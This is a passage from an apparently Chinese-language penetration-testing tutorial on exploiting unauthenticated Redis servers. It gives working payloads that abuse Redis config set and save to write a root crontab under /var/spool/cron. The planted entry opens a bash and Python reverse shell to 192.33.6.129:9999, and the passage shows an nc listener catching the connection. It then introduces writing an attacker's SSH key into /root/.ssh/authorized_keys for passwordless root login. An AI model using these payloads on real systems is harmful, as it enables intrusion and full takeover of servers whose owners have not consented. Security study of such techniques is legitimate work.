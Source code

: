 这种利用方法有点鸡肋，通常只能在`CentOS`下利用成功，`Ubuntu`却不可以。因为默认Redis写文件后，默认数据库备份文件是644的权限

```
root@rose:~# ls /var/lib/redis/dump.rdb -al
-rw-r--r-- 1 redis redis 92 Aug  6 10:00 /var/lib/redis/dump.rdb
root@rose:~#
```

但是ubuntu要求执行定时任务文件权限必须是600，同时，其对定时文件里面的数据格式要求很严格，不然就不会正常执行定时任务。

然而`CentOS`的定时任务执行文件在目录`/var/spool/cron/`下权限为644则可以成功执行定时任务，即使数据格式不严谨。【经测试：对于目录文件`/etc/crontab`不会生效】
- 组合payload反弹shell
```
# bash反弹
config set dir /var/spool/cron/
config set dbfilename root
set x '\n\n*/1 * * * * bash -i &gt;&amp; /dev/tcp/192.33.6.129/9999 0&gt;&amp;1\n\n'
save

config set dir /var/spool/cron/
config set dbfilename root
set x '\n\n*/1 * * * * /bin/bash -i &gt;&amp; /dev/tcp/192.33.6.129/9999 0&gt;&amp;1\n\n'
save

# python反弹
config set dir /var/spool/cron/
config set dbfilename root
set x "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.33.6.129\",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"
save
```
- 定时任务执行情况
```
crontab -l

tail -f /var/log/cron
```
- 攻击效果：监听
```
root@rose:~# nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 192.33.6.144 40952 received!
```

PS：写入定时任务这种情况最好放到最后的方法中（对环境有一定的要求！）

<a class="reference-link" name="%E5%86%99%E5%85%A5SSH%E5%85%AC%E9%92%A5%E5%85%8D%E5%AF%86%E7%99%BB%E5%BD%95"></a>**写入SSH公钥免密登录**

环境：当目标机器不存在Web应用服务器，也就是Redis与Web服务器分离。

对于Linux系统来说，使用ssh的用户目录下都会有一个隐藏文件夹`~/.ssh/`，只要我们可以将自己的公钥写在对方的`.ssh/authorized_keys`文件里，那么就可以直接ssh免密登录目标机器。

如果真实环境中Redis是以root权限运行的，并且`/root/.ssh/`目录存在，那么则可以尝试写入`/root/.ssh/authorized_keys`文件来获取目标机器所属权限。
